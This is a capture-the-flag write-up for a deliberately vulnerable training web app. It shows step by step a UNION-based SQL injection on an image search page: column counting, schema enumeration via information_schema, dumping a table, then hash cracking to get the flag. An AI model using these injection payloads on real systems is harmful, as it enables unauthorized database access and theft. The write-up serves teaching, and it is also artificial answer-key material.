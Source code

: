 # searchimg

We go to `/?page=searchimg`. We see an input that allows us to search for an image by its id.

We try a few different numbers. `5` yields something interesting :

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

This looks like a classic SQL injection. We try the following exploit :

```
5 UNION SELECT 1
```

We get nothing. This is normal : we need to figure out how many columns are returned by the section left of `UNION`.

We do this by adding to the `SELECT` : we try `SELECT 1`, `SELECT 1,2`, `SELECT 1,2,3`...

`SELECT 1,2` seems to work ; now we can start replacing the numbers with useful queries.

We try the following :

```
5 UNION SELECT table_name, column_name FROM information_schema.columns
```

We look for anything related to `image` ; we find information on the `list_images` table :

```
ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: id
Url : list_images

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: url
Url : list_images

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
```

This tells us there's a `list_images` table, with the following fields :

- id
- url
- title
- comment

We take a look at those last two using :

```
5 UNION SELECT comment, title FROM list_images
```

The last image listed reads :

```
ID: 5 UNION SELECT comment, title FROM list_images 
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

We decrypt the MD5 over at [MD5decrypt](https://md5decrypt.net/). We get :

```
albatroz
```

Following the instructions, we encrypt it with SHA256 and get :

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```